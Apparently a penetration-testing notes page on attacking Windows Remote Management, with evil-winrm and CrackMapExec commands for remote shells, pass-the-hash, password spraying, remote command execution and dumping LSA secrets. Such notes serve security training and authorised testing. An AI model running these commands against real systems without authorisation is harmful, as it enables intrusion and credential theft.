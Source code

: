 # WinRM

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Windows dosent have a banner to say it is winrm.We can tell if it winrm by port  5985 - 5986
{% endhint %}

## Metasploit Metepreter Exploit

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Set paylaod metepreter

## &#x20;evil-winrm

`Evil-WinRM` is a popular post-exploitation tool used by red teamers and penetration testers to get a PowerShell remote shell on a Windows machine using **WinRM** (Windows Remote Management). It's especially useful when you have **valid credentials** (username + password or NTLM hash).

### 🔧 Requirements

* **Valid credentials** (username + password OR NTLM hash).
* **WinRM enabled** on the target (usually port **5985** for HTTP or **5986** for HTTPS).
* Ruby and Bundler (if installing from source) or use Kali Linux (already installed).

### 🚀 Basic Usage (with Password)

```bash
evil-winrm -i <TARGET-IP> -u <USERNAME> -p <PASSWORD>
```

Example:

```bash
evil-winrm -i 10.10.10.123 -u administrator -p 'Passw0rd!'
```

### 🔐 Using NTLM Hash (Pass-the-Hash)

```bash
evil-winrm -i <TARGET-IP> -u <USERNAME> -H <NTLM-HASH>
```

Example:

```bash
evil-winrm -i 10.10.10.123 -u administrator -H aad3b435b51404eeaad3b435b51404ee:6cb75f652a9b52798eb6cf2201057c73
```

## &#x20;crackmapexec

CrackMapExec is a Swiss Army knife for pentesters that helps automate:

* Credential validation across many hosts
* Lateral movement via SMB, WinRM, or others
* Executing commands remotely
* Harvesting credentials and hashes
* Checking SMB shares and system info

### Basic Usage Syntax

```bash
crackmapexec <protocol> <target> [options]
```

* `<protocol>`: `smb`, `winrm`, `rdp`, `mssql`, etc.
* `<target>`: IP, IP range, CIDR, or list of IPs (e.g., `10.10.10.0/24`)

### Common Examples

1. SMB Login Check with Username & Password

```bash
crackmapexec smb 10.10.10.0/24 -u administrator -p 'Password123'
```

2. Using Username and NTLM Hash (Pass-the-Hash)

```bash
crackmapexec smb 10.10.10.0/24 -u administrator -H <NTLM_HASH>
```

3. Using a Password List for Password Spraying

```bash
crackmapexec smb 10.10.10.0/24 -u administrator -p /path/to/password_list.txt
```

4. Use with a File of Credentials

```
crackmapexec smb 10.10.10.0/24 -C creds.txt
```

Where `creds.txt` format:

```
username:password
user2:pass2
```

### Important Flags and Options

| Option        | Description                              |
| ------------- | ---------------------------------------- |
| `-u`          | Username                                 |
| `-p`          | Password or password list                |
| `-H`          | NTLM hash (pass-the-hash)                |
| `-d`          | Domain name                              |
| `-x`          | Execute command remotely                 |
| `--shares`    | List SMB shares                          |
| `--users`     | Enumerate users                          |
| `--lsa`       | Dump LSA secrets (requires privileges)   |
| `-M <module>` | Run a specific module (e.g., `mimikatz`) |

## Run commands on target

Basic syntax to run a command on a target

```
crackmapexec smb <target-ip-or-range> -u <username> -p <password> -x "<command>"
```

Example: Run `whoami` on a single host

```
crackmapexec smb 10.10.10.123 -u administrator -p 'Password123' -x "whoami"
```
